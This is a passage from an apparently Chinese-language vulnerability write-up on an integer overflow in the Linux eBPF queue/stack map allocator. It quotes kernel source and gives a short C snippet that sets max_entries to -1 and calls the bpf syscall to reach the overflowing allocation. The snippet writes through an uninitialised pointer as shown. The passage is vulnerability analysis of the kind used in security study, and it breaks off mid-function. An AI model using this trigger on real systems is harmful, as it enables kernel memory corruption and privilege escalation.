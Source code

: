 当我们将 ```attr->map_type``` 初始化为22时，对应着BPF_MAP_TYPE_QUEUE，此时会使用虚表 ```queue_map_ops```

而这张虚表中的 ```.map_alloc = queue_stack_map_alloc``` 函数中，**即存在我们的整数溢出。**

ps：网上的分析在这里讲的很模糊，直接一下就到了对于 ```queue_stack_map_alloc``` 的分析，我这里尽量讲详细一些，实际上如果你不调整map type是到达不了此处的。

总结一下想要到达漏洞函数的条件：

- 设置 attr->map_type 为 22

- 通过 map_alloc_check 的检查。

  - 此时是：

     ```C
  /* Called from syscall */
  static int queue_stack_map_alloc_check(union bpf_attr *attr)
  {
  	/* check sanity of attributes */
  	if (attr->max_entries == 0 || attr->key_size != 0 ||
  	    attr->map_flags & ~QUEUE_STACK_CREATE_FLAG_MASK)
  		return -EINVAL;
  
  	if (attr->value_size > KMALLOC_MAX_SIZE)
  		/* if value_size is bigger, the user space won't be able to
  		 * access the elements.
  		 */
  		return -E2BIG;
  
  	return 0;	//要到达这里
  }
     ```

- attr->map_ifindex 为空。

比如我们按照如下设置：

```c
    union bpf_attr *attr;
    attr->map_type = BPF_MAP_TYPE_QUEUE;    //BPF_MAP_TYPE_QUEUE
    attr->max_entries = -1;
    attr->map_flags = 0;
    attr->value_size = 0x20;
    int ret = syscall(__NR_bpf,0,attr,0x30);
```

就可以正常到达 ```queue_stack_map_alloc```

### queue_stack_map_alloc

```c
static struct bpf_map *queue_stack_map_alloc(union bpf_attr *attr)
{
	int ret, numa_node = bpf_map_attr_numa_node(attr);
	struct bpf_queue_stack *qs;
	u32 size, value_size;
	u64 queue_size, cost;

	size = attr->max_entries + 1;
	value_size = attr->value_size;

	queue_size = sizeof(*qs) + (u64) value_size * size;

	cost = queue_size;
	if (cost >= U32_MAX - PAGE_SIZE)
		return ERR_PTR(-E2BIG);

	cost = round_up(cost, PAGE_SIZE) >> PAGE_SHIFT;

	ret = bpf_map_precharge_memlock(cost);
```